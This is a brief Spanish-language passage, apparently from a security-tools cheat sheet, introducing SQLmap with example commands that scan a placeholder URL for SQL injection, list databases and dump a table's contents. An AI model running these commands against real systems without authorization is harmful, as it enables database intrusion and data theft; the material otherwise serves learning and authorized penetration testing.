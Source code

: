 ### SQLmap
**Descripción:** SQLmap automatiza la detección y explotación de inyecciones SQL.

**Ejemplos de uso:**
```bash
# Escaneo básico para detectar vulnerabilidades
sqlmap -u "http://target.com/page?id=1"

# Extraer bases de datos
sqlmap -u "http://target.com/page?id=1" --dbs

# Obtener información de una tabla específica
sqlmap -u "http://target.com/page?id=1" -D database_name -T table_name --dump
